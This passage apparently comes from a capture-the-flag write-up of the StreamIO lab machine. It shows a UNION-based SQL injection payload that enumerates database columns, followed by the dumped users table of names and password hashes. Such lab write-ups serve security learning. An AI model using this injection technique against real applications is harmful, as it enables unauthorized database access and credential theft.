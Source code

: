 ![Untitled](StreamIO/Untitled%207.png)

Concat: [https://docs.microsoft.com/pt-br/sql/t-sql/functions/concat-transact-sql?view=sql-server-ver16](https://docs.microsoft.com/pt-br/sql/t-sql/functions/concat-transact-sql?view=sql-server-ver16)

Sequence of payloads used to dump the databases, columns, tables and data inside of it.

```python
q=Gone'union select '1',column_name,'3','4','5','6' FROM information_schema.columns-- x
			
STREAMIO [DB]
   TABLES - users
------------------------
username -  COLUMN
admin
Alexendra
Austin
Barbra
Barry
Baxter
Bruno
Carmon
Clara
Diablo
Garfield
Gloria
James
Juliette
Lauren
Lenord
Lucifer
Michelle
Oliver
Robert
Robin
Sabrina
Samantha
Stan
Thane
Theodore
Victor
Victoria
William
yoshihide
-----------------------

--------------------------------
password - COLUMN
0049ac57646627b8d7aeaccf8b6a936f
08344b85b329d7efd611b7a7743e8a09
083ffae904143c4796e464dac33c1f7d
0cfaaaafb559f081df2befbe66686de0
1c2b3d8270321140e5153f6637d3ee53
22ee218331afd081b0dcd8115284bae3
2a4e2cf22dd8fcb45adcb91be1e22ae8
35394484d89fcfdb3c5e447fe749d213
3577c47eb1e12c8ba021611e1280753c
384463526d288edcc95fc3701e523bc7
3961548825e3e21df5646cafe11c6c76
54c88b2dbd7b1a84012fabc1a4c73415
665a50ac9eaa781e4f7f04199db97a11
6dcd87740abb64edfa36d170f0d5450d
7df45a9e3de3863807c026ba48e55fb3
```